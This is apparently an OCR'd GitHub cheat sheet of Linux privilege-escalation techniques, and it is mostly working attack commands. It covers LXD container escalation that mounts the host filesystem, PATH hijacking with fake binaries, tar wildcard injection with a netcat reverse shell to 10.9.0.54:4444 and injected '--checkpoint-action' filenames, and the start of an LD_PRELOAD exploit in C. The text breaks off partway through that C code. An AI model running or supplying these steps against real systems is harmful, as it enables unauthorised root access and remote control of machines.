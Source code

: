Last step give the right permission to not having security issues
- `lxc init myimage ignite -c security.privileged=true`
- `lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`
- `lxc start ignite`
- `lxc exec ignite /bin/sh`
- `cd /mnt/root/root`

SOURCE = https://www.hackingarticles.in/lxd-privilege-escalation/
***
**#Privilege_Escalation_with_executable_files**
Note: We will follow a example that we have a elf file and that elf file is calling tail in another user in the system and we don't have enough privilige to change anything over there.


- let's create a folder inside /tmp called attacker `mkdir /tmp/attacker`
- Go into it. `cd /tmp/attacker` 
- Now let's change the /usr/bin folder to /tmp/attacker using the command `export PATH=/tmp/attacker:$PATH`

Now we're going to create the tail file, let's add this to it:

- `echo '#!/bin/bash' > tail`
- `echo '/bin/bash' >> tail`

After that let's type `chmod +x tail`. Now let's go back to the `$PE_Vector_file` folder and let's run it.

***
**#Privilege_Escalation_with_Path_Variable_Manipulation**
1- If the result of `sudo -l` returning an extraordinary program,
2- And if that program calling some other programs (eg:curl) without path
Then you can exploit it with:
- `cd /tmp | echo /bin/sh > $program_name`
- `chmod 777 $program_name`
- `export PATH=/tmp:$PATH`
- `/way/to/the/program` to run it and gain root access

***
**#Tar_wildcard_file_compressing_escalation**
If you see an ouput like this from /etc/crontab :
`cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *`
Then we can exploit it like this:
```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 4444 >/tmp/f
EOF
```
Then:
- `echo "" > "/home/andre/backup/--checkpoint=1"`
- `echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"`

Open a listener wait for the incoming connection
***
**#LD_PRELOAD**
If you see a specific program in return of `sudo -l` and it uses `LD_PRELOAD` You can exploit it like that in order to get root user:
- `cd /tmp | touch root.c`
- `nano root.c` Here is the exploit code:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
```